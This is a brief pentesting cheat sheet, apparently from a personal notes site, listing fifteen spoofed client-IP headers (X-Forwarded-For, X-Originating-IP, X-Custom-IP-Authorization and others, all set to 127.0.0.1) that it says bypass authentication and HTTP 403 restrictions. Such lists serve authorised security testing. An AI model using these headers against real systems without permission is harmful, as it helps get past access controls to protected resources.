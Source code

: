 ```yaml
---
layout: memory
title: Pentesting - Auth bypass headers
---
```


Common headers that help to bypass auth issues and HTTP 403 madness:

| Header                                |
| ------------------------------------- |
| X-Forwarded: 127.0.0.1                |
| X-Forwarded-By: 127.0.0.1             |
| X-Forwarded-For: 127.0.0.1            |
| X-Forwarded-For-Original: 127.0.0.1   |
| X-Forwarder-For: 127.0.0.1            |
| X-Forward-For: 127.0.0.1              |
| Forwarded-For: 127.0.0.1              |
| Forwarded-For-Ip: 127.0.0.1           |
| X-Custom-IP-Authorization: 127.0.0.1  |
| X-Originating-IP: 127.0.0.1           |
| X-Remote-IP: 127.0.0.1                |
| X-Remote-Addr: 127.0.0.1              |
| X-Trusted-IP: 127.0.0.1               |
| X-Requested-By: 127.0.0.1             |
| X-Requested-For: 127.0.0.1            |
